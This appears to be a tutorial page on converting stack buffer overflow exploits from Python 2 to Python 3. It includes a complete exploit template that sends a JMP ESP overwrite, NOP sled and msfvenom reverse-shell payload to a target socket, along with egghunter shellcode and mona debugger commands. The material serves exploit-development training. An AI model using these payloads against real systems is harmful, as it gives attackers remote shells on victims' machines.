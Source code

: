 # Python3 and More

## Overview
As Python 2 is deprecated, it's essential to understand how to adapt buffer overflow exploits to work with Python 3. Additionally, this section covers more advanced techniques and considerations for exploit development.

## Key Differences between Python 2 and Python 3 for Exploit Development

- **String Handling**: Python 3 distinguishes between strings and byte arrays
- **Socket Programming**: Changes in how data is sent/received over sockets
- **Encoding**: More explicit encoding/decoding required in Python 3

## Converting Python 2 Exploits to Python 3

### String vs Bytes

Python 2:
```python
buffer = "A" * 2040 + "\x90\x90\x90\x90" + shellcode
```

Python 3:
```python
buffer = b"A" * 2040 + b"\x90\x90\x90\x90" + shellcode
```

### Socket Communication

Python 2:
```python
s.send("COMMAND " + buffer)
```

Python 3:
```python
s.send(("COMMAND " + buffer.decode(errors='ignore')).encode())
```

## Complete Python 3 Exploit Example

```python
#!/usr/bin/python3
import socket, sys
import struct

offset = 2040
jmp_esp = 0x77A11D90
eip = struct.pack("<I", jmp_esp)

# msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 -f python -b "\x00\x0a\x0d"
buf =  b""
buf += b"\xba\x3b\x7f\x14\xf8\xda\xd8\xd9\x74\x24\xf4\x5e\x33"
# ... (rest of shellcode)

# Final exploit structure
buffer = b"A" * offset + eip + b"\x90" * 16 + buf

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('TARGET_IP', TARGET_PORT))
    # Note the different handling of strings and bytes
    s.send(('COMMAND ' + buffer.decode(errors='ignore') + '\r\n').encode())
    s.close()
    print("Exploit sent, check your listener")
except Exception as e:
    print(f"Error: {e}")
    sys.exit()
```

## Advanced Techniques

### Egghunters
When buffer space is limited, an egghunter allows for larger payloads:

```python
# Example egghunter (tag: W00T)
egghunter = b"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
egghunter += b"\xef\xb8\x57\x30\x30\x54\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7"

# Payload with prepended tag
shellcode = b"W00TW00T" + msfvenom_payload
```

### Stack Adjustment
When space is limited after the EIP:

```python
# Sub ESP to create space
adjustment = b"\x83\xEC\x10"  # subtract 16 from ESP
buffer = b"A" * offset + eip + adjustment + shellcode
```

### Dynamic Debugging
Using custom debugging scripts with Immunity/OllyDbg:

```python
# Example of adding debugging commands
!mona bp 0x77A11D90  # Set breakpoint at JMP ESP
!mona findmsp        # Find offset automatically
```

## Best Practices

1. **Use More Robust Error Handling**
   ```python
   try:
       # Exploit code
   except Exception as e:
       print(f"Error: {e}")
       traceback.print_exc()  # For detailed error information
   ```

2. **Create Reusable Functions**
   ```python
   def create_buffer(offset, eip_address, shellcode):
       eip = struct.pack("<I", eip_address)
       return b"A" * offset + eip + b"\x90" * 16 + shellcode
   ```

3. **Add Command-Line Arguments**
   ```python
   import argparse
   parser = argparse.ArgumentParser()
   parser.add_argument('-t', '--target', required=True, help='Target IP')
   parser.add_argument('-p', '--port', type=int, required=True, help='Target port')
   args = parser.parse_args()
   ```

## Important Considerations

- Test exploits in isolated environments
- Be aware of anti-virus detection of shellcode
- Consider network timeouts when sending large payloads
- Document all steps for reproducibility
- Use code versioning to track changes

## Additional Resources

- Immunity Debugger and Mona.py documentation
- Metasploit Framework documentation
- OWASP Buffer Overflow guide
- Corelan Team exploit writing tutorials
